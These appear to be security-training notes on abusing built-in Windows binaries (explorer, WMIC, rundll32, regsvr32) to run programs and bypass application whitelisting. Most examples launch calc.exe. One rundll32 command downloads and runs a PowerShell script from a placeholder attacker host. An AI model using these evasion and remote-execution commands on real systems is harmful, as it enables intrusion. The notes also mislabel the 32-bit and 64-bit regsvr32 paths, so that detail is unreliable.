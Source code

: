 ## File Explorer
A file manager and system component for Windows. We can use this binary to execute other `.exe` files.
We can get the binary from
- `C:\Windows\explorer.exe` for the Windows 64-bit version
- `C:\Windows\SysWOW64\explorer.exe` for the 32-bit version
In order to create a child process of explorer, we can execute the following
```powershell
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

## WMIC
**Windows Management Instrumentation** (WMIC) is a Windows CLI utility that manages Windows components. It can also be used to execute binaries for evading defensive measures. Referring to the Signed Binary Proxy Execution technique.
```powershell
wmic.exe process call create calc
```
We simply create a new process of a binary of our choice, in this case `calc.exe`

## Rundll32
Rundll32 is a built-in tool that loads and runs DLL files from within the OS. We can abuse this to run arbitrary payloads and execute JavaScript and PS scripts.
Located at:
- `C:\Windows\System32\rundll32.exe` for the Windows 64-bit version
- `C:\Windows\SysWOW64\rundll32.exe` for the 32-bit version
We can try to execute a binary using
```
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```
We used `runndll32.exe` that embeds a JavaScript component, `eval()`, to execute the calc binary.
As mentioned we could also use a PowerShell script. The following runs a JavaScript that executes a PS command to download from a remote website and run a script.
```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/script.ps1');");
```

# Application Whitelisting Bypasses
Application Whitelisting is an endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies list of approved applications or executable files that are allowed to be present and executed on an OS.

## Regsvr32
Regsvr32 is a CLI tool to register and unregister DLLs in the Windows Registry. Located at:
- `C:\Windows\System32\regsvr32.exe` for the Windows 32 bits version
- `C:\Windows\SysWOW64\regsvr32.exe` for the Windows 64 bits version
It can also be used to execute binaries and bypass the Application Whitelisting. Using trusted OS components it executes binaries in memory, which is one of the reasons it can bypass whitelisting.

---